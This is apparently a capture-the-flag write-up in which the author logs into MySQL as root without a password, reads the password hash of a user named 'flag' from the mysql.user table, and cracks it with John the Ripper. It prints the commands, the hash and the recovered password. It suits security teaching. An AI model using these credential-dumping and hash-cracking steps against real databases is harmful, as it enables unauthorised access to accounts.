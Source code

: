 # Database Password

We need to get the password of user flag from the MySQL database.
Because other users didn't work I tried to login as root with no password. It worked :).

```bash
mysql -u root
```

Now we can checkk out the databases:

```bash
SHOW DATABASES;
```

We see the mysql database so lets use it:

```bash
USE mysql;
```

Now we check the tables and see there is a user table in there, so we query this table top get additional information:

```bash
SHOW TABLES;
SELECT * FROM user;
```

We don't get a password but a hash used in Mysql (SHA1): 25A3DA0F4740480EE31E435E03CE4B58A4F1263B
we crack it using JTR:

```bash
printf "flag:*25A3DA0F4740480EE31E435E03CE4B58A4F1263B" > pass.hash
john --format=mysql-sha1 ./pass.hash
```

And we get the password: periwinkle



